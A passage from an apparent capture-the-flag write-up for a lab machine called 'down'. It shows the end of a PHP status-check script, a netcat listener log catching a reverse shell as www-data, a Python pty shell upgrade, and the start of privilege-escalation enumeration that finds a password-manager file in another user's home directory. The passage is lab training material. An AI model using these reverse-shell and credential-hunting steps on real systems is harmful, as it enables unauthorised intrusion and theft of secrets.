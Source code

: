 ```
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Only protocols http or https allowed.</font>';
  }
}
?>
```
To test this I will put in the localhost  and port 22 to see if it detects its open and it works
![image](Pasted image 20251016111356.png)
With this I can be able to get a reverse shell . So I started my `netcat` listener and got the reverse shell as `www-data`
![image](Pasted image 20251016111658.png)
```
rlwrap nc -nlvp 9001                        
listening on [any] 9001 ...
connect to [10.10.14.210] from (UNKNOWN) [10.129.234.87] 38730
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@down:/var/www/html$ export TERM=xtem
export TERM=xtem
www-data@down:/var/www/html$ whoami
whoami
www-data
www-data@down:/var/www/html$ 
```
The first flag can be obtained here `/var/www/html/user_aeT1xa.txt`

## Privilege Escalation
### Initial Enumeration
Looking at the home folder of the user `aleks` I find a `pswm`folder under `.local` with an encrypted string 
```
www-data@down:/home/aleks$ cd .local
cd .local
www-data@down:/home/aleks/.local$ ls -la
ls -la
total 12
drwxrwxr-x 3 aleks aleks 4096 Sep  6  2024 .
drwxr-xr-x 5 aleks aleks 4096 May 27 23:51 ..
drwxrwxr-x 3 aleks aleks 4096 Sep 13  2024 share
www-data@down:/home/aleks/.local$ cd sha
cd share/
www-data@down:/home/aleks/.local/share$ ls -la
ls -la
total 12
drwxrwxr-x 3 aleks aleks 4096 Sep 13  2024 .
drwxrwxr-x 3 aleks aleks 4096 Sep  6  2024 ..
drwxrwxr-x 2 aleks aleks 4096 Sep 13  2024 pswm
www-data@down:/home/aleks/.local/share$ cd 
cd pswm/
www-data@down:/home/aleks/.local/share/pswm$ ls -la
ls -la
total 12
drwxrwxr-x 2 aleks aleks 4096 Sep 13  2024 .
drwxrwxr-x 3 aleks aleks 4096 Sep 13  2024 ..
-rw-rw-r-- 1 aleks aleks  151 Sep 13  2024 pswm
www-data@down:/home/aleks/.local/share/pswm$ cd 
cd pswm 
bash: cd: pswm: Not a directory
```